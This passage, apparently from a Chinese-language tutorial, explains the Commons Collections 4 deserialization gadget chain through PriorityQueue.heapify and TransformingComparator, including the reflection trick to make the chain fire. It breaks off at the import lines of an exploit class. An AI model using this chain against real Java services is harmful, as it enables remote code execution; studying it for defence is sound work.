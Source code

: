 然后我们就需要找其他类中 readObject 方法中是否能够调用 compare 方法，于是我们找到了 PriorityQueue 类中的`heapify() - > siftDown - > siftDownUsingComparator`

[![](assets/1701612311-742386d71ad5af552331ca0d974213fb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235553-94f03d06-20cc-1.png)

### EXP 问题：

在我们简单调用完上面的链子之后，并没能够弹出计算器，所以这里我们就要下断点调试一下，size 默认值为 0，进不了循环

```plain
private void heapify() {
        for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
```

需要将 size 值为 2 才可以，又因为 add 函数在序列化时也能够走通链子，所以我们也和前面构造 exp 一样，先破坏一个值，然后再 add 以后使用反射修改回来：

### EXP(CC4TransformingComparator):

```plain
package EXP;


import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.*;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.map.LazyMap;
```